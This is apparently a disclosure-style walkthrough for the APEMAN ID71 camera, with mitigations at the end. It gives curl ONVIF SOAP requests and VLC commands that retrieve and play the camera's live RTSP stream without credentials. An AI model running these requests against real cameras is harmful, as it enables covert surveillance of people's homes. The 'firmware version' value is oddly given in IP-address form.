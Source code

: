 ### APEMAN ID71 — Unauthenticated RTSP Stream Walkthrough

This walkthrough shows how an unauthenticated attacker on the same network can leverage ONVIF endpoints to obtain the RTSP URI and watch the live video stream, without credentials.

![Live camera stream](./camera2.png)

Firmware version: "218.53.203.117"

### Prerequisites
- A host on the same network as the camera
- curl and an XML pretty-printer (e.g., `xmllint`) or any SOAP-capable client
- An RTSP viewer (e.g., VLC)

### Step 1 — Identify ONVIF service
The camera exposes ONVIF on port 10080. Replace `<camera-ip>` with the device IP.

```bash
curl -s -X POST http://<camera-ip>:10080/onvif/device_service \
  -H 'Content-Type: application/soap+xml; charset=utf-8' \
  -H 'SOAPAction: "http://www.onvif.org/ver10/media/wsdl/GetProfiles"' \
  -d '
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsdl="http://www.onvif.org/ver10/media/wsdl">
  <soap:Header/>
  <soap:Body>
    <wsdl:GetProfiles/>
  </soap:Body>
</soap:Envelope>
' | xmllint --format -
```

From the response, note a profile token (e.g., `PROFILE_000`).

### Step 2 — Request the RTSP URI for the profile
Use the profile token found above.

```bash
curl -s -X POST http://<camera-ip>:10080/onvif/device_service \
  -H 'Content-Type: application/soap+xml; charset=utf-8' \
  -H 'SOAPAction: "http://www.onvif.org/ver10/media/wsdl/GetStreamUri"' \
  -d '
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsdl="http://www.onvif.org/ver10/media/wsdl">
  <soap:Header/>
  <soap:Body>
    <wsdl:GetStreamUri>
      <wsdl:ProfileToken>PROFILE_000</wsdl:ProfileToken>
    </wsdl:GetStreamUri>
  </soap:Body>
</soap:Envelope>
' | xmllint --format -
```

The response includes a URI similar to:

```xml
<trt:GetStreamUriResponse>
  <trt:MediaUri>
    <tt:Uri>rtsp://<camera-ip>:10554/udp/av0_0</tt:Uri>
  </trt:MediaUri>
</trt:GetStreamUriResponse>
```

### Step 3 — View the stream (no credentials required)
Open the returned RTSP URI in your player.

```bash
# UDP
vlc rtsp://<camera-ip>:10554/udp/av0_0

# TCP
vlc rtsp://<camera-ip>:10554/tcp/av0_0
```

If successful, the live video feed plays immediately.

### Why this works
- ONVIF endpoints return RTSP stream URIs without authentication
- The RTSP server accepts connections without credentials

### Recommended mitigations
- Require authentication on ONVIF media and device services
- Enforce credentials on RTSP streaming endpoints
- Restrict access with network ACLs/VLAN segmentation
- Disable ONVIF if unused; limit to trusted management hosts
- Update firmware if a fix is available


